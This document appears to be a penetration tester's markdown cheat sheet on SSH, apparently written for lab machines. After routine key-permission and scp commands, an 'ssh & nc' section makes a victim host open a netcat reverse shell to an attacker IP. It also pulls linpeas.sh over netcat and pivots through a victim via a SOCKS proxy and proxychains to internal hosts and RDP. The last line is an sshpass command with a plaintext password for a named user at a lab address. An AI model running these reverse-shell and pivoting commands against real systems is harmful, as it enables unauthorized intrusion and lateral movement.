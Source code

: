 # SSH Secure Shell Protocol

```
C:\\Users\\username\\.ssh\\id_rsa
```

```
chmod 600 ssh_key
```

```
ssh -i ssh_key user@ip
```

### Copy a Local File to a Remote System

```
scp localfile  remoteusername@remotehost:/remote/directory
```

### Copy a Remote File to a Local System

```
scp remoteusername@remotehost:/remotefile /local/directory
```

## ssh & nc

```
ssh username@victim-ip "nc attacker-ip port -e /bin/bash"
```

```
nc -nlvp port
```

```
ssh username@victim-ip "nc attacker-ip port > linpeas.sh"
```

```
ssh username@ip -p2222
```

```
ssh -D 9050 victimUsername@victimIP

netstat -antup 9050

sudo nano /etc/proxychains4.conf

sudo proxychains nc -nv $victim'sInternalIP 80/445

sudo proxychains rdesktop $victimIP
```

![](Pasted%20image%2020231030122335.png)

```
sshpass -p 'L1k3B1gBut7s@W0rk' ssh Nadine@10.129.227.77 -L 8443:127.0.0.1:8443
```

